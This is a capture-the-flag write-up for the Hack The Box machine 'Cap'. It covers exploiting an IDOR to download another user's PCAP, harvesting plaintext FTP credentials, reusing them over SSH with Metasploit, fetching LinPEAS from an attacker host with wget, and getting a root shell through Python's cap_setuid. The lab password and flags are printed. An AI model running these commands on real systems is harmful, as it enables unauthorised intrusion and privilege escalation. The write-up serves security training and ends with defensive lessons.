








# Hack The Box — Cap (Easy Linux)

**Platform:** Hack The Box  
**Difficulty:** Easy  
**OS:** Linux  
**Flags:** User ✅ | Root ✅

---

## Overview

Cap is an Easy-rated Linux machine that hosts a network monitoring web application. The path to compromise involves exploiting an Insecure Direct Object Reference (IDOR) vulnerability in the web app to access another user's packet capture file. The PCAP contains FTP credentials transmitted in plaintext, which are reused on SSH. Privilege escalation is achieved by abusing a Linux capability (`cap_setuid`) assigned to the Python 3.8 binary.

---

## Reconnaissance

### Port Scan

A TCP scan against the target reveals three open ports:

```
10.129.28.91  21    tcp    ftp   open   vsftpd 3.0.3
10.129.28.91  22    tcp    ssh   open   OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
10.129.28.91  80    tcp    http  open   Gunicorn
```

Three services are exposed: FTP, SSH, and an HTTP web application served by Gunicorn.

---

## Enumeration

### Web Application — Port 80

Browsing to `http://10.129.28.141` reveals a network monitoring dashboard. The application has the current user (`nathan`) already authenticated and presents a **"Security Snapshot"** feature that captures live network traffic and generates a downloadable PCAP file.

After triggering a snapshot, the browser redirects to:

```
http://10.129.28.141/data/1
```

The URL structure is `/data/<id>`, where the `id` corresponds to the scan number for the current user's session.

---

## Exploitation

### IDOR — Accessing Another User's PCAP

Noticing the sequential numeric ID in the URL, the value was manually changed from `1` to `0`:

```
http://10.129.28.141/data/0
```

The application served a PCAP file without any authorisation check, confirming an **Insecure Direct Object Reference (IDOR)** vulnerability. This allows any authenticated user to access scan data belonging to other users simply by iterating the ID parameter.

The PCAP at ID `0` was automatically downloaded for analysis.

---

### Credential Extraction from PCAP

Opening the downloaded PCAP in Wireshark and filtering for FTP traffic revealed credentials transmitted in plaintext — FTP sends both the username and password as cleartext over the wire.

The following credentials were recovered:

```
Username : nathan
Password : Buck3tH4TF0RM3!
```

---

## User Flag

### FTP Access

The recovered credentials were tested against the FTP service:

```bash
ftp 10.129.28.141
# Username: nathan
# Password: Buck3tH4TF0RM3!
```

Login was successful. The user flag was retrieved directly via FTP:

```
feaf1e74a6c58c6ad735f99b9b7df81e
```

---

### SSH Access

The same credentials were found to be valid on the SSH service as well — a classic case of credential reuse across services. A Metasploit `ssh_login` module was used to establish a session:

```bash
use auxiliary/scanner/ssh/ssh_login
set USERNAME nathan
set PASSWORD Buck3tH4TF0RM3!
set RHOSTS 10.129.28.141
run
```

A session was obtained and upgraded to a Meterpreter session for better stability:

```bash
sessions -u 1
```

---

## Privilege Escalation

### Enumeration with LinPEAS

With a shell as `nathan`, LinPEAS was transferred to the target via a Python HTTP server and executed from `/tmp`:

```bash
# On attacker machine
python3 -m http.server 8080

# On target
cd /tmp
wget http://<attacker-ip>:8080/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

LinPEAS highlighted the following under the **"Files with Capabilities"** section:

```
/usr/bin/python3.8 = cap_setuid+eip
```

### Abusing cap_setuid on Python 3.8

The `cap_setuid` capability allows a process to set its effective UID arbitrarily — including to `0` (root) — without needing a setuid binary or sudo. Since Python 3.8 carries this capability, it can be leveraged to spawn a root shell directly.

First, the capability was verified:

```bash
getcap /usr/bin/python3.8
# /usr/bin/python3.8 = cap_setuid+eip
```

The privilege escalation was then executed with a single Python one-liner:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.execl("/bin/bash", "bash")'
```

This calls `os.setuid(0)` to switch the effective UID to root, then spawns a Bash shell — resulting in a root shell.

---

## Root Flag

With root access obtained, the root flag was retrieved from the standard location:

```bash
cat /root/root.txt
```

```
c4d68497e94531fe90b3d1ffc2c068d1
```



https://labs.hackthebox.com/achievement/machine/533012/351


---

## Summary

| Stage | Technique | Detail |
|---|---|---|
| Reconnaissance | TCP Port Scan | FTP (21), SSH (22), HTTP (80) |
| Enumeration | Web Application Analysis | Security Snapshot feature on Gunicorn app |
| Initial Foothold | IDOR | `/data/0` exposed another user's PCAP |
| Credential Harvest | Plaintext Protocol Analysis | FTP credentials in PCAP (Wireshark) |
| User Access | Credential Reuse | SSH login with FTP credentials |
| Privilege Escalation | Linux Capabilities Abuse | `cap_setuid+eip` on `/usr/bin/python3.8` |

---

## Key Takeaways

- **IDOR vulnerabilities** remain one of the most impactful and common flaws in web applications. Always validate that a user is authorised to access a specific resource — not just authenticated.
- **FTP transmits credentials in plaintext.** Any traffic captured on the network can expose credentials. Use SFTP or FTPS in production environments.
- **Credential reuse** across services is a common and dangerous practice. Separate credentials should be enforced per service.
- **Linux capabilities** are a lesser-known but powerful attack surface. `cap_setuid` on an interpreted runtime like Python is effectively equivalent to giving that binary root-level access.